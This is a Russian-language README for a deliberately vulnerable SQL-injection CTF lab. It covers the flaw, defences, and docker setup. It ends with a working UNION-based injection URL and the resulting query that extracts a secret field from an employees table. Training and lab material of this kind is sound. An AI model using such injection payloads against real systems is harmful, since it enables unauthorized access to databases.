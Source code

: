 # Practice SQLI CTF

## Краткое описание уязвимости
SQL Injection - уязвимость, которая позволяет злоумышленнику создавать запросы к SQL базам данных, не предусмотренные разработчиком.
Возникает она из-за неправильной обработки данных, которые впоследствие присутствуют в запросе к базе данных.
Данный сервис позволяет получить все штрафы пользователя по имени человека.

## Способы защиты от уязвимости
- Корректная обработка и экранирование входных данных.
- Настройка прав доступа к базе данных.
- Использование `prepared statements` и параметризированных запросов.

## Запуск приложения
Для запуска приложения нужно:
1. Склонировать репозиторий:
```bash
git clone https://github.com/MinaevMax/Practice_SQLI.git
cd Practice_SQLI
```
2. Запуск приложения через docker-compose:
```bash
docker-compose up --build
```
3. Приложение будет запущено по адресу: [http://localhost:8080](http://localhost:8080)

## Описание уязвимости конкретно в данном приложении
Сервис позволяет получить флаг, находящийся в поле secret у сотрудника(таблица employees), выписавшего наибольшую сумму штрафов.
Есть хэндлер, который возвращает из бд только поля id штрафа и имя на кого он выписан.
Для того, чтобы получить флаг, нужно передать вместо имени запрос, который фильтрует и возвращает поле secret у нужной записи.

## POC-эксплоит для получения флага
Для получения флага, необходимо получить запись из таблицы, недоступной для получения из хэндлера.
Сделать это можно воспользовавшись SQL командой UNION, которую нужно использовать в передаваемом тексте.
Например, подойдет следующий запрос:
`http://localhost:8080/bills/check?name=' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''='`
Для него, запрос к БД будет выглядеть следующим образом: 
`SELECT id, name, value FROM billdb.bills WHERE name='' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''=''`
В результате запрос вернет поле secret для сотрудника с наибольшей суммой штрафов, что и есть флаг.
Хэндлер возвращает 3 параметра: id штрафа, name человека, value штрафа, обернутые в текстовую оболочку. 
При получении флага id и value будут 0, а поле name будет отображать флаг.(Это следует из запроса в примере)
Выполнение запросов лучше и удобнее всего проводить через программу Postman.